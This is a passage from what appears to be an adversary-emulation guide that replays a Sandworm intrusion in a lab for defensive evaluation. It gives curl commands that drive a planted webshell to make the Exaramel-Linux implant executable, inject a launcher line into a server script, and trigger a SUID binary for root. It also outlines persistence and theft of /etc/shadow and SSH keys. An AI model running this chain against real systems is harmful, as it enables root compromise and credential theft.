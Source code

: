Make Exaramel-Linux executable via `chmod`.

```bash
# P.A.S. Webshell has the ability to modify file permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=chmod+755+centreon_module_linux_app64"
```

Insert 1-liner into `/var/www/html/include/tools/check.sh`; the 1-liner executes Exaramel-Linux.

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh"
```

Execute SUID binary, `/bin/backup`; this binary executes `check.sh` from the previous step, which causes Exaramel-Linux to be executed with root privileges.

```bash
# Exaramel for Linux can execute commands with high privileges via a specific binary with setuid functionality.

curl --insecure "https://10.0.1.5/search.php?cmd=/bin/backup" &
```

[Source Code](../../Resources/suid-binary/suid-binary.c)

:warning: Switch to your controlServer tab; you should have a new callback.

Take a screenshot of the new implant and paste in slack.

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 

<br>

## Step 14 - Exaramel Linux Persistence

:microphone: `voice track`

During this step, Sandworm establishes crontab and systemd persistence.

Sandworm then exfils /etc/shadow, bash history, and fherbert's SSH keys over the existing C2 channel.

In the next step, Sandworm uses credentials derived from the /etc/shadow file to attack a lateral host.

### :biohazard: Procedures

From your control server tab, split the window horizontally:

```
Right click > Split Horizontally
```


In your lower terminal, enter the control server directory. Interaction with Exaramel-Linux (the implant) will occur through this terminal.
